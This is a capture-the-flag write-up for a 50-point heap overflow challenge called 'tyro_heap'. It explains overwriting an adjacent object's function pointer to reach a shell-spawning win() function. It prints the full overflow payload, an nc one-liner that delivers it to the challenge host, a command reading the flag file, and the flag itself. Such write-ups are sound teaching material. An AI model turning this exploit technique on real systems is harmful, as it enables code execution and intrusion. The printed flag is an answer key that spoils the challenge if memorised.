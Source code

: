 # tyro_heap (50 points)
*Solution by [Neg9] Javantea*

Files:
* tyro_heap_29d1e9341f35f395475bf16aa988e29b
* heap1.txt
* tyro_heap.jav
	
This challenge is a heap overflow. Heap overflows are complex and the writeups for how they work are pretty bad. I spent a half hour just figuring out the dynamics of the problem.

```
create heap object
create heap object
read type b into object 0
$'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x60\x86\x04\x08'
run object function 1
quit
```

What happens in this exploit is two simple allocations. They are up against one another. Then you read 40 bytes into the first object and the last 4 overwrites the object function of the second. Then when you call the object function of the second, you get code execution. They created a function called win() that executes a shell. I probably could have gotten code execution without that function but that would have been worth more than 50 points. Heap exploits are not as difficult as you might think.
	
```
(echo c; sleep 0.2; echo c; sleep 0.2; echo b; sleep 0.2; echo 0; sleep 0.2; echo $'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x60\x86\x04\x08'; sleep 0.5; echo e; sleep 0.2; echo 1; sleep 0.2; echo q; cat) |nc 172.31.1.35 1622

cat /home/challenge/flag
```

Solution:  
Chihui_you_got_a_heap_challenge_honaho
